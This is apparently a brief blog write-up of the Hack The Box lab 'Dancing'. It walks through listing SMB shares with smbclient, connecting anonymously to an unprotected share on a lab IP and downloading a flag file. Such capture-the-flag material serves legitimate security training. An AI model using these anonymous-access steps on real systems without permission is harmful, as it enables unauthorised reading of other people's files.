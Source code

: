 ```yaml
---
layout: post
title: 'HTB | Dancing'
date: 2022-02-27
permalink: /htb/dancing/
---
```



# [](#header-4)Connection

We will need to use samba to connect. With the option **-L** we can see all the folders we have. We can see that the last one doesn't have protection.
{% highlight plain %}
$ smbclient -L //10.129.119.218/
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk 
$ smbclient //10.129.119.218/WorkShares
{% endhighlight %}

# [](#header-4)Flag

With the command **get** we can download the file.
{% highlight plain %}
smb: \> ls
smb: \> cd James.P\
smb: \James.P\> ls
smb: \James.P\> get flag.txt
smb: \James.P\> exit

$ cat flag.txt 
{% endhighlight %}

